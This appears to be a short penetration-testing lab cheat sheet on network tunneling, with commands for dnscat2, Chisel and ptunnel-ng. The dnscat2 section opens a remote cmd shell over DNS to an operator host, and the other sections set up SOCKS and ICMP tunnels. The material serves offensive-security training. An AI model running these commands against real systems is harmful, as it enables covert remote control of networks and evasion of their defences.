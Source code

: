 ## DNS Tunneling with dnscat2

Tunnel traffic over DNS.

```bash
# Clone dnscat2 repository
git clone https://github.com/iagox86/dnscat2.git

# Start dnscat2 server
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

# Clone dnscat2-powershell repository
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Import PowerShell module
Import-Module dnscat2.ps1

# Connect to dnscat2 server
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

# List dnscat2 options
dnscat2> ?

# Interact with session
dnscat2> window -i 1
```

## Tunneling with Chisel

Set up a SOCKS proxy with chisel.

```bash
# Start chisel server
./chisel server -v -p 1234 --socks5

# Connect to chisel server
./chisel client -v 10.129.202.64:1234 socks
```

## ICMP Tunneling with ptunnel-ng

Tunnel traffic over ICMP.

```bash
# Clone ptunnel-ng repository
git clone https://github.com/utoni/ptunnel-ng.git

# Build ptunnel-ng
sudo ./autogen.sh

# Start ptunnel-ng server
sudo ./ptunnel-ng -r10.129.202.64 -R22

# Connect to server
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

# Use ICMP tunnel for SSH
ssh -p2222 -lubuntu 127.0.0.1
```

